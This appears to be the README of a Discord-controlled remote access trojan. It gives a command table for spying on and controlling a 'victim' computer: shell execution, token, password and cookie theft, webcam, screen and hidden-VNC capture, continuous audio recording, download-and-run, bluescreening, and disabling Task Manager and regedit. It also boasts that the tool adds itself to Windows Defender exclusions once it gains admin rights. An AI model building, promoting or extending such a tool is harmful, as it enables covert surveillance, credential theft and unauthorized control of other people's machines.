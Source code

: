 # COMPLETELY UPDATED

MADE IT TO WHERE IF IT IS RAN AS ADMIN IT IMMEDIATELY ADDS IT SELF TO EXCLUSIONS WINDOWS DEFENDER, AND IF THEY ACCEPT THE UAC PROMPT WHEN YOU DO !getadmin IT WILL AUTOMATICALLY ADD IT SELF TO THE EXCLUSIONS TO

# COMMANDS ⬇

        {"name": f"{PREFIX}screenshot", "value": "Takes a screenshot of the system and sends it to the channel"},
        {"name": f"{PREFIX}shell", "value": "Executes a shell command on the victim and returns the output"},
        {"name": f"{PREFIX}hiddenvnc", "value": "Remote screen control with interactive GUI"},
        {"name": f"{PREFIX}restart", "value": "Does what it says, restarts the victims computer"},
        {"name": f"{PREFIX}bluescreen", "value": "Bluescreens the victims computer"},
        {"name": f"{PREFIX}vnchelp", "value": "All commands for hiddenvnc"},
        {"name": f"{PREFIX}chat", "value": "Opens a chat where you can then talk to the victim"},
        {"name": f"{PREFIX}endchat", "value": "Will close the chat window"},
        {"name": f"{PREFIX}grabtoken", "value": "Grabs all tokens on victims computer"},
        {"name": f"{PREFIX}disableav", "value": "Doesnt Disable AV but adds itself to exclusions if it has admin"},
        {"name": f"{PREFIX}disabletaskmanager", "value": "Disables taskmanager"},
        {"name": f"{PREFIX}disableregedit", "value": "Disables regedit"},
        {"name": f"{PREFIX}getadmin", "value": "Pops up with a UAC prompt and if accepted you get admin"},
        {"name": f"{PREFIX}webcam", "value": "Takes a photo using the system's webcam and sends it to the channel"},
        {"name": f"{PREFIX}screen [duration]", "value": "Provides a live view of the screen, updating every 0.5 seconds. Optional duration in seconds (default: 30, max: 300)"},
        {"name": f"{PREFIX}stopscreen", "value": "Stops the live screen view"},
        {"name": f"{PREFIX}grabpasswords", "value": "Might grab all passwords depending on browser"},
        {"name": f"{PREFIX}webcamstream [duration]", "value": "Provides a live view of the webcam, updating every 0.5 seconds. Optional duration in seconds (default: 30, max: 300)"},
        {"name": f"{PREFIX}stopwebcam", "value": "Stops the live webcam view"},
        {"name": f"{PREFIX}media", "value": "Plays a media file on the target system. Attach an MP4, MP3, or other media file to your message"},
        {"name": f"{PREFIX}search [query]", "value": "Searches Google for the specified query and displays it in full screen"},
        {"name": f"{PREFIX}background", "value": "Changes the desktop background. Either attach an image or provide a URL to an image"},
        {"name": f"{PREFIX}clipboard [text]", "value": "Without text: Shows the current clipboard contents. With text: Sets the clipboard to the provided text."},
        {"name": f"{PREFIX}grabcookies", "value": "Grabs all cookies from browsers."},
        {"name": f"{PREFIX}downloadfileandrun", "value": "Downloads an attached file and runs it on the target system. Attach the file you want to execute."},
        {"name": f"{PREFIX}disableaudio", "value": "Disables (mutes) the system audio until enabled again"},
        {"name": f"{PREFIX}enableaudio", "value": "Enables (unmutes) the system audio"},
        {"name": f"{PREFIX}shutdown [delay]", "value": "Shuts down the target computer. Optional delay in seconds (default: 0)"},
        {"name": f"{PREFIX}end", "value": "Terminates the bot process on the target system"},
        {"name": f"{PREFIX}help", "value": "Shows this help message"},
        {"name": "Background Audio Recording", "value": "The system automatically records audio in 30-second segments and uploads them to the system's channel"}


grabcookies and grabpasswords doesnt work rn

# MORE COMING SOON
